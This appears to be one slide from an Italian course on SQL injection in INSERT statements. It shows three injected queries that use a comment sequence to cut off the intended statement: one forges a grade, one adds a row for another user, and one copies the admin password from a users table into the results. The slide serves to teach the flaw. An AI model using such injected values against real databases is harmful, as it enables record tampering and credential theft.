

# Inserimenti (stesso problema)
INSERT INTO results
       VALUES (NULL, 'm.pogliani', '30L') -- ', '18');
INSERT INTO results VALUES (NULL, 'm.pogliani', '30L'), (NULL, 'j.doe', '30L') -- ', '18');
INSERT INTO results VALUES (NULL, 'm.pogliani', (SELECT password from USERS where user='admin')) -- ', '18');
51